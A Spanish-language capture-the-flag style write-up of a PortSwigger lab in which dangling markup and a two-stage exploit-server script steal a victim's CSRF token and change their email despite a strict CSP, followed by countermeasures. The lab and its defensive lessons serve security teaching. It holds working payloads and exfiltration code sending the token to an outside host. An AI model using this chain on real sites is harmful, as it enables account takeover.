


# Writeup: Reflected XSS protected by very strict CSP, with dangling markup attack (PortSwigger)

- **Lab**: Reflected XSS protected by very strict CSP, with dangling markup attack
- **URL**: https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack
- **Categoría**: XSS / Reflected / CSP bypass / Dangling markup / Two-stage CSRF chain
- **Dificultad**: Practitioner

---

## 1. Objetivo

Cambiar el email del usuario víctima (logueado como `administrator` en el bot) a `hacker@evil-user.net`. La página de cuenta tiene una CSP estricta que bloquea ejecución de JS arbitrario, así que el approach habitual de "inyecto un `<script>` y hago `fetch`" no funciona. Toca un ataque más arquitectónico que combina varios primitives.

Credenciales para acceso normal: `wiener:peter`. Disponible un exploit server.

---

## 2. Reconocimiento

### El sink

El parámetro `?email=` en `/my-account` se refleja **dentro del valor del input email** del formulario de cambio de email:

```html
<input required="" type="email" name="email" value="REFLECTION_HERE">
<input required="" type="hidden" name="csrf" value="...">
<button>Update email</button>
```

Test inicial: `?email=test"><h1>X</h1>` rompe el atributo y renderiza el `<h1>`. Inyección HTML confirmada en valor de atributo.

### La CSP

Vista en response header:

```
Content-Security-Policy: default-src 'self'; object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
```

Análisis:
- `script-src 'self'` sin `'unsafe-inline'` ni `'unsafe-eval'`: bloquea `<script>` inline y handlers `on*=`. Los scripts solo pueden cargarse desde el mismo origen.
- `default-src 'self'`: para fetch directives no listadas (connect-src, font-src, frame-src, etc.), permite solo same-origin.
- **`form-action` NO está listada**. Y `form-action` NO cae a `default-src` por fallback (es directiva de navegación, no de fetch). **Resultado**: los forms pueden submitear a cualquier dominio.
- `base-uri 'none'`: cierra la ruta `<base href=...>` que sería otro vector.

La grieta visible: `form-action` libre. Esa es la palanca.

### Otras observaciones

- `/my-account?id=USERNAME` muestra info de un usuario, validado contra usuarios reales (redirige al login si el id no es válido).
- El email del usuario, mostrado dentro de `<span>` en `/my-account?id=...`, está **HTML-encoded** al renderizar. No es un sink XSS.
- Validación cliente-side `type="email"` rechaza valores con `<`. Bypass: Burp Repeater para mandar el POST al endpoint de cambio de email con cualquier string (la validación server-side es laxa).

---

## 3. Estrategia del ataque

Necesitamos:
1. Lograr que el bot, autenticado como administrator, submita un POST a `/my-account/change-email` con `email=hacker@evil-user.net` Y el csrf token de SU sesión.

Sin JS arbitrario en la página del lab, no podemos leer el csrf vía `fetch('/my-account')`. Pero podemos **forzar al bot a submitear un form que tiene el csrf token absorbido**.

El truco: **dangling markup**. Inyectar un `<button>` dentro del form de cambio de email original que, al clickearse, sobreescribe el action del form vía `formaction=`. El form mantiene todos sus inputs originales (incluido `<input name=csrf>`) y los submitea al destino que nosotros elegimos.

Pero hay un detalle SAMESITE importante: si nuestro `formaction` apunta directamente a `/my-account/change-email` con method POST, el bot's browser hace una navigation cross-site con POST. Las cookies de sesión modernas son `SameSite=Lax`, que NO se mandan en POST cross-site. Solución: usar method GET para el primer submit (Lax permite cookies en GET top-level), capturar el csrf en la URL del exploit server, y desde ahí hacer un nuevo POST same-origin (que sí incluye cookies porque el destino es la misma cookie scope).

Resulta en un ataque **2-stage** entre exploit server y lab.

### Diagrama

```
[Bot]                              [Exploit Server]                 [Lab]
   |                                    |                              |
   | GET /exploit/                      |                              |
   |----------------------------------->|                              |
   |  HTML con <script>                 |                              |
   |  csrf no en URL → else branch:     |                              |
   |  location = lab URL con dangling   |                              |
   |  markup en ?email=                 |                              |
   |<-----------------------------------|                              |
   |                                                                   |
   | GET /my-account?email=PAYLOAD                                     |
   |------------------------------------------------------------------>|
   |  HTML con <button formaction=exploitserver formmethod=get>        |
   |  inyectado en value="" del input email                            |
   |  csrf input intacto en el form                                    |
   |<------------------------------------------------------------------|
   |                                                                   |
   |  bot clickea "Click me" del button injected                       |
   |                                                                   |
   |  form GET-submite a exploit server:                               |
   |  ?email=&csrf=<TOKEN_DEL_BOT>                                     |
   |----------------------------------->|                              |
   |  GET /exploit?email=...&csrf=...   |                              |
   |  csrf SÍ en URL → if branch:       |                              |
   |  document.createElement form,      |                              |
   |  action=lab/my-account/change-email|                              |
   |  email=hacker@evil-user.net,       |                              |
   |  csrf=<captured>, form.submit()    |                              |
   |<-----------------------------------|                              |
   |                                                                   |
   |  POST /my-account/change-email                                    |
   |  con cookie de sesión del bot     (top-level navigation, GET-like  |
   |  desde same-origin destination, así que cookie SE manda)          |
   |------------------------------------------------------------------>|
   |  csrf válido → email cambia a hacker@evil-user.net                |
   |  Lab solved                                                       |
```

---

## 4. Construcción del payload de dangling markup

```
foo@bar"><button formaction="https://EXPLOIT-SERVER/exploit" formmethod="get">Click me</button>
```

URL-encoded para meter en `?email=`:

```
foo@bar%22%3E%3Cbutton+formaction%3D%22https%3A%2F%2FEXPLOIT-SERVER%2Fexploit%22+formmethod%3D%22get%22%3EClick+me%3C%2Fbutton%3E
```

Resultado en el HTML rendered del lab:

```html
<input required="" type="email" name="email" value="foo@bar"><button formaction="https://EXPLOIT-SERVER/exploit" formmethod="get">Click me</button>
<input required="" type="hidden" name="csrf" value="<TOKEN_DEL_BOT>">
<button class="button" type="submit"> Update email </button>
</form>
```

Atributos clave del button inyectado:
- `formaction="..."`: sobreescribe el `action` del form padre. Solo afecta cuando se clickea ESTE button específico.
- `formmethod="get"`: sobreescribe el method del form a GET. Razón crucial: SameSite=Lax permite cookies en GET top-level, no en POST cross-site.
- Texto "Click me": el bot está programado para clickear elementos con la palabra "Click".

Cuando el bot clickea "Click me", el browser submite el form padre, pero usa la action y method del button (override). Form data: `email=foo@bar` (el value que cuajó en el atributo) y `csrf=<TOKEN>` (input absorbed). El submit es GET, así que va como query string a la URL del exploit server.

---

## 5. Body del exploit server (JS de 2 stages)

```html
<body>
<script>
var lab = "https://LAB-ID.web-security-academy.net/";
var exploit = "https://EXPLOIT-SERVER-ID.exploit-server.net/exploit";
var match = location.search.match(/[?&]csrf=([^&]+)/);

if (match) {
    // Stage 2: tenemos csrf, hacer POST hacia change-email
    var csrf = decodeURIComponent(match[1]);
    var f = document.createElement('form');
    f.method = 'POST';
    f.action = lab + 'my-account/change-email';
    var e = document.createElement('input');
    e.name = 'email'; e.value = 'hacker@evil-user.net';
    var t = document.createElement('input');
    t.name = 'csrf'; t.value = csrf;
    f.appendChild(e); f.appendChild(t);
    document.documentElement.appendChild(f);
    f.submit();
} else {
    // Stage 1: redirigir al lab con la dangling markup
    location = lab + 'my-account?email=foo@bar%22%3E%3Cbutton+formaction%3D%22' + exploit + '%22+formmethod%3D%22get%22%3EClick+me%3C%2Fbutton%3E';
}
</script>
</body>
```

### Detalles que importan en el script

1. **`location.search.match(/[?&]csrf=([^&]+)/)` en lugar de `new URL(location).searchParams.get('csrf')`**: en algunos headless browsers (incluido el de PortSwigger), `new URL(location)` falla silenciosamente porque `location` no se serializa correctamente. La regex es robusta.

2. **`document.documentElement.appendChild(f)` en lugar de `document.body.appendChild(f)`**: si el script ejecuta antes de que `<body>` esté completamente parseado, `document.body` puede ser null. `documentElement` (el `<html>`) siempre existe.

3. **`decodeURIComponent(match[1])`**: el csrf llega URL-encoded en la URL del query string. Hay que decodearlo antes de meterlo como input value (los `<input>` no decodean; lo que pongas en `.value` es el string literal).

4. **Stage 1 vs Stage 2 en la misma URL**: el exploit server sirve la MISMA HTML body para `/exploit/` y para `/exploit?...&csrf=...`. La rama `if/else` en JS distingue.

---

## 6. Resolución (debugging real)

Tres iteraciones antes de que funcionara, todas instructivas.

### Iteración 1: payload directo (FAILED)

Primer intento: form inyectado con action=`/my-account/change-email` directo, hidden email input, click "Click me".

```
"></form><form action=/my-account/change-email method=POST><input type=hidden name=email value=hacker@evil-user.net><input type=submit value="Click me">
```

Manualmente funcionó (al clickear como wiener, mi propio email cambió). Para el bot, falló silenciosamente. Causa más probable: cookie SameSite=Lax en la sesión del bot, que NO se manda en POST cross-site triggered desde un form action. El POST llega al server SIN cookie de sesión, server lo rechaza.

### Iteración 2: 2-stage con `new URL(location)` (FAILED)

Switched al approach 2-stage del PortSwigger writeup oficial. JS en el exploit server con `new URL(location).searchParams.get('csrf')`.

Logs del exploit server mostraron que el bot llegaba a `/exploit?email=...&csrf=...` con el csrf bien capturado, pero el bot **se quedaba en bucle pegándole a la misma URL** durante minutos sin avanzar al stage 2. Diagnóstico: el JS estaba fallando silenciosamente. Probables causas:
- `new URL(location)` problemático en headless Chromium del bot.
- `document.body` posiblemente null cuando ejecuta el script.

### Iteración 3: JS defensivo (SUCCESS)

Cambios:
- `new URL(location).searchParams.get('csrf')` → `location.search.match(/[?&]csrf=([^&]+)/)`
- `document.body.append(f)` → `document.documentElement.appendChild(f)`
- `decodeURIComponent` explícito sobre el csrf

Tras esto, el flujo completo ejecutó:
1. Bot visita exploit server.
2. JS detecta no-csrf, redirige a lab con dangling markup.
3. Bot llega al lab, ve "Click me", clickea.
4. Form GET-submite a exploit server con csrf en URL.
5. Bot vuelve al exploit server, JS detecta csrf, crea form POST a change-email.
6. POST same-origin con cookie de sesión del bot, csrf válido. Email cambia.
7. Lab solved.



---

## 7. Resumen de la cadena



Cinco ideas para llevarse:

1. **`form-action` omitido en CSP es la grieta más recurrente**. Las directivas más conocidas (`script-src`, `style-src`, `img-src`) se documentan religiosamente; `form-action` se olvida frecuentemente. Cuando ves CSP estricta para scripts pero sin `form-action`, abre la puerta a hijack de submisiones.
2. **SameSite cambia el cálculo de TODO el ataque**. Lax es el default moderno y bloquea POST cross-site con cookies. Para CSRF chains via XSS+exploit server, hay que diseñar el flujo para usar GET top-level (Lax-friendly) en el cross-site step y reservar POST para same-origin.
3. **Dangling markup ≠ "HTML inyectado sin cerrar"**. Es una técnica para que un elemento INYECTADO absorba contenido EXISTENTE de la página. En este lab, el `<button formaction=>` inyectado absorbe el form padre (incluyendo el csrf input). En otros labs (CSS injection, etc.) el patrón es similar: inyectar algo que captura state del DOM.
4. **Headless browsers no son Chromium 1:1**. APIs como `new URL(location)` o `document.body.append()` pueden tener inconsistencias. Cuando un script funciona en tu navegador pero no en el bot del lab, sospechar JS que asume invariantes del DOM tipo "body siempre existe" o de constructors tipo URL. Usar fallbacks defensivos.
5. **2-stage attacks via exploit server son un patrón universal** para labs donde el csrf necesita ser robado y reutilizado. Stage 1 captura, stage 2 usa. La sutileza es la cookie de sesión: el browser tiene que mandarla en la submisión final para que el server la considere autenticada.

---

## 8. Contramedidas

Defensas en orden de robustez:

1. **CSP completa que incluya `form-action 'self'`** (o lista explícita de destinos válidos para forms). Cierra la grieta principal explotada en este lab.
2. **`SameSite=Strict`** en la cookie de sesión, no Lax. Strict bloquea cookies incluso en GET top-level cross-site, lo que hace que el bot, navegando desde el exploit server al lab, NO mande la cookie. El csrf forjado fallaría en validar la sesión.
3. **HTML escape en valores de atributos** del lado server, sin excepciones. Cualquier valor reflejado dentro de `value="..."` debe escapar `"` y `<` con HTML entities. El sink original NO escapaba; el bypass de `value` con `"` fue trivial precisamente por esto.
4. **Anti-CSRF via header (Origin/Referer check) además del token**. Aunque el atacante robe el token, el Origin del POST sería el del exploit server (no del lab), permitiendo rechazar la request server-side.
5. **Subresource Integrity y CSP `script-src` con nonces o hashes** para hacer la inyección de scripts incluso más difícil cuando hay sinks débiles.

### Anti-patrón frecuente

Confiar en CSP solo para defenderse de XSS. CSP es defensa en profundidad, no la primera línea. La primera es escapar la entrada en el sink. CSP estricta sin `form-action` es como una bóveda con la puerta blindada pero las ventanas abiertas: bloqueas scripts inline pero el atacante exfiltra via `<form>` o `<a href>` o CSS dangling markup.

---

## 9. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Reflected XSS protected by very strict CSP, with dangling markup attack*. https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack
- PortSwigger Web Security Academy. (s.f.). *Content security policy*. https://portswigger.net/web-security/cross-site-scripting/content-security-policy
- W3C. (2018). *Content Security Policy Level 3*. https://www.w3.org/TR/CSP3/
- IETF. (2016). *RFC 6265bis: Cookies — SameSite attribute*. https://datatracker.ietf.org/doc/html/draft-ietf-httpbis-rfc6265bis
- WHATWG. (s.f.). *HTML Living Standard — formaction, formmethod*. https://html.spec.whatwg.org/multipage/form-control-infrastructure.html#attr-fs-formaction
- Heiderich, M., et al. (2014). *Scriptless Attacks: Stealing the Pie Without Touching the Sill*. https://www.nds.rub.de/media/emma/veroeffentlichungen/2012/08/16/scriptlessAttacks-ccs2012.pdf — paper seminal sobre dangling markup y CSS injection.
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-xss.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-xss.md) — sección de filtros y bypasses cubre allowlist tag-based.
- Inventario interno: [`inventario/04-explotacion/web/explotacion-xss.md`](../../../inventario/04-explotacion/web/explotacion-xss.md) — sección de bypass de CSP.
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-csrf.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-csrf.md) — contramedidas SameSite y validación de Origin/Referer.
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-seguridad-cabeceras.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-seguridad-cabeceras.md) — sección sobre CSP, directivas frecuentemente olvidadas.
- Writeup propio: [`learning/portswigger/exploiting-xss-to-bypass-csrf-defenses/writeup.md`](../exploiting-xss-to-bypass-csrf-defenses/writeup.md) — chain XSS hacia CSRF en un setup más simple (sin CSP estricta).
- Writeup propio: [`learning/portswigger/reflected-xss-angularjs-sandbox-escape-and-csp/writeup.md`](../reflected-xss-angularjs-sandbox-escape-and-csp/writeup.md) — otro bypass de CSP, ahí vía AngularJS gadget en lugar de dangling markup.
